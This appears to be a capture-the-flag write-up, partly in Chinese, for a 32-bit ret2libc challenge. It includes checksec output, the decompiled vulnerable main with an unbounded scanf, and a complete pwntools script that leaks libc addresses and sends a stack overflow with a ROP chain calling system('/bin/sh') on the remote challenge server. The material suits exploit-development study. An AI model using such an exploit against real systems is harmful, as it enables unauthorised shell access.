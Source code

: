 ## train.cs.nctu.edu.tw: ret2libc

```shell
gef➤  checksec
[+] checksec for '/home/kali/pwn/ret2libc'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-14h]

  puts("Hello!");
  printf("The address of \"/bin/sh\" is %p\n", binsh);
  printf("The address of function \"puts\" is 0x%x\n", &puts);
  fflush(stdout);
  return __isoc99_scanf("%s", &v4);
}
```

运行后输出 /bin/sh 和 puts 的地址，通过 LibcSearcher 找 libc 版本，然后导出 system 地址。不过在本地用 libc 实属8行

```python
##coding=utf8
from pwn import *
from LibcSearcher import *

r = remote('bamboofox.cs.nctu.edu.tw', 11002)

offset = 0xffffd5e8 - 0xffffd5cc + 4
r.recvuntil('is ')
bin_sh = int(r.recvuntil('\n'), 16)
print '/bin/sh =', hex(bin_sh)
r.recvuntil('is ')
puts = int(r.recvuntil('\n'), 16)
print 'puts =', hex(puts)

libc = LibcSearcher('puts', puts)
# libc.add_condition('str_bin_sh', bin_sh)
libc_base = puts - libc.dump('puts')
print 'system =', hex(libc.dump('system'))
system = libc_base + libc.dump('system')

rop = [
    system,
    0xdeadbeef,
    bin_sh,
]

r.sendline('a'*offset + ''.join(map(p32, rop)))
r.interactive()
```
